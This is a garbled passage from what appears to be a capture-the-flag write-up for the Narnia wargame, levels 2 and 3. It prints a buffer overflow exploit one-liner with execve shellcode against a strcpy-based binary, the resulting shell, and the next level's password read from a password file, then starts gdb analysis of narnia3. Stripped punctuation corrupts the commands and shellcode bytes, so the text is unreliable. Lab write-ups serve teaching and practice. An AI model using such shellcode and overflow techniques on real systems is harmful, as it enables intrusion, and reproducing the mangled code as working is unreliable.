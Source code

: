    highlight bash   
narnia2 narnia  narnia    narnia2   python  c  print  A  132   x48xd5xffxff   x90  30   x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0  
x0bxcdx80     
  whoami  
narnia3

  cat  etc narnia pass narnia3  
vaequeezee
   endhighlight   

    Source Code

   highlight c   
 include  stdio h   
 include  string h   
 include  stdlib h   
  
int main int argc  char   argv       char buf 128     if argc    1         printf  Usage   s argumentn   argv 0          exit 1    
       strcpy buf argv 1      printf   s   buf     return 0   
 
   endhighlight   

We can see that this program is vulnerable  as it only expects to receive up to 128 bytes for the buffer  and does not properly check the size of the user s input 

Narnia 3
        

Executing the narnia3 binary we see the following 

   highlight bash   
narnia3 narnia  narnia    narnia3  
usage    narnia3 file  will send contents of file 2  dev null

Essentially  the program claims that it will read the contents of a file and write its contents to  dev null 
   endhighlight   

    Attempting to Read Passwords from the Stack Pointer

This means that the contents of the file it is reading from will most likely be in the esp register upon reading  We can verify this by first running the program in gdb and setting a breakpoint at the instruction right before the program terminates 

   highlight bash   
   0x08048602   247     pushl   0x4  ebp                                               
  0x08048605   250     call   0x80483f0  close plt                         
  0x0804860a   255     add     0x4  esp  
  0x0804860d   258     push    0x1  0x0804860f   260     call   0x80483b0  exit plt   
End of assembler dump   
 gdb  b  0x0804860d                          
Breakpoint 1 at 0x804860d
   endhighlight   

To determine where the contents of the inputted file will be located  the file a txt was created  located in  tmp test6   whose contents is filled with 300 A s 
